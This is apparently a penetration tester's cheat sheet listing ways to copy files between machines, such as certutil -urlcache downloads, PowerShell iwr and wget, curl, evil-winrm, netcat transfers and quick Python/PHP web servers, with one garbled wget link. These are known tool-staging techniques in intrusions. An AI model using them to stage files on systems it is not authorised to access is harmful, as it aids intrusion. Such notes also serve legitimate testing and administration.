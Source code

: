 # Files Copy


* certutil.exe
```
certutil -urlcache -f http://192.168.62.68/file.txt file.txt
```

* invoke-webrequest
```
powershell.exe iwr -uri 192.168.1.2/file.txt -o C:\Temp\fileoutput.txt
```

* wget
```
powershell.exe wget [http://192.168.1.62/f](http://192.168.1.2/putty.exe)ile.txt -OutFile file.txt
```

* curl

```
curl http://192.168.1.2/file.txt -o fileout.txt
```

* evil-winrm
```
evil-winrm : upload/download options
```

* netcat
 
To serve file (on computer A):

```
cat something.zip | nc -l -p 1234

```
To receive file (on computer B):

```
netcat server.ip.here. 1234 > something.zip
```

* Starting div webserver :

```
python -m http.server 80
php -S 0.0.0.0:80 
```
